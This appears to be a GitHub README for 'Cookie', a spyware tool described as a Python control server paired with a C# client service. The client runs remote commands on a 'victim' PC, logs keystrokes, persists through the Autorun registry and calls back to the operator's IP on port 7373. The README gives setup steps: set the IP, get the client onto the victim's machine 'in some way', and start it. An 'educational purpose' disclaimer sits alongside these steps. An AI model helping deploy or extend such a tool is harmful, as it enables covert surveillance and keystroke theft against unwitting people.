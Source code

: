 # __Cookie__:cookie:
>Cookie is a Spyware created for educationl purpose only so use this only in a protected and authorized environment.

# What can it do?
It's a spyware so... spy! It can send all sorts of commands to the pc victim, and it is also a __keylogger__ so it can read what the victim is typing on his keyboard.

# How is it structred?
>Cookie_Client
>>Cookie_Server

- The Cookie Server is the python script, this is the script that you have to use for controlling the victim machine;

You can use it on your mobile phone (use QPython) or in your computers. You have to set only the IP, the victim has to be in your LAN or you have to use a forward port. The default port is [7373]

- The Cookie Client is the C# service; You have to change the IP and the default port to your ip:

>cookie.Connect("127.0.0.1",7373);

You must install it on victim machine and in some way (there are a lot of ways) start it, then it writes it self in the Autorun registry.
Then it will search for Cookie Server.


